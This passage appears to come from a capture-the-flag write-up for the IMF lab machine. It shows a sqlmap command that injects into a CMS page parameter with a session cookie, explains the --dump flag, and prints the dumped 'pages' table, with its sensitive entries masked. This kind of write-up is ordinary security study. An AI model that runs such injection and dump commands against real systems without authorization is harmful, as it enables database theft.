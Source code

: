 
Command:
```bash
sqlmap -u "http://192.168.1.112/imfadministrator/cms.php?pagename=home" --cookie="PHPSESSID=vamiotoji1f0253kmscf173ag7" -D admin -T pages --dump

```

The **--dump** flag in SQLMap is used to extract and display all data from the specified table in the target database. When combined with other flags, such as `-D` for the database and `-T` for the table, it allows SQLMap to retrieve the entire contents of that table.


We obtain the following information:


![](/assets/post/IMF/respag.png)


We obtained the following information from the `pages` table:

| id  | pagedata                                                                                                                        | pagename             |
| --- | ------------------------------------------------------------------------------------------------------------------------------- | -------------------- |
| 1   | Under Construction.                                                                                                             | upload               |
| 2   | Welcome to the IMF Administration.                                                                                              | home                 |
| 3   | Training classrooms available. Contact us for training.                                                                         | tutorials-incomplete |
| 4   | <h1>Disavowed List</h1> <ul><li>_********</li><li>****** ******</li><li>****_**</li><li>**** ********</li></ul><br />-Secretary | disavowlist          |

